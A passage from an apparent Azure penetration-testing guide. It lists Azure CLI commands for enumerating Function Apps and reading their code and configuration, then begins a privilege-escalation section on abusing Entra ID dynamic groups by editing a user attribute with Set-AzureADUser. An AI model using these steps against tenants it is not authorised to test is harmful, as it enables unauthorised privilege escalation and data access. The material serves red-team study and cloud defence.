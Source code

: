 2. List functions
   ```powershell
   # Azure CLI
   az functionapp function list --name <function-app>
   # Expected Output: Function details
   ```

3. Check configuration
   ```powershell
   # Azure CLI
   az functionapp config show --name <function-app>
   # Expected Output: Configuration details
   ```

4. Access function code
   ```powershell
   # Azure CLI
   az functionapp function show --name <function-app> --function-name <function>
   # Expected Output: Function code and configuration
   ```

**Success Indicators**:
- Retrieved Function App information
- Accessed functions
- Modified configuration
- Exploited vulnerabilities

**Troubleshooting**:
- If app not found, verify name
- If access denied, check permissions
- If function fails, verify code
- If configuration invalid, check settings

## 3. Privilege Escalation

### Entra ID Escalation
**Scenario**: You have a low-privileged account and need to escalate privileges.

**Enumeration Path**:
1. Discovered dynamic groups
2. Identified role assignments
3. Found potential escalation paths
4. Determined best approach

**Prerequisites**:
- Valid Azure credentials
- Azure CLI installed
- Appropriate permissions

**Steps**:
1. Dynamic group abuse
   ```powershell
   # PowerShell
   Get-AzureADGroup -Filter "displayName eq 'Dynamic Group'"
   Set-AzureADUser -ObjectId <user-id> -JobTitle "New Title"
   ```
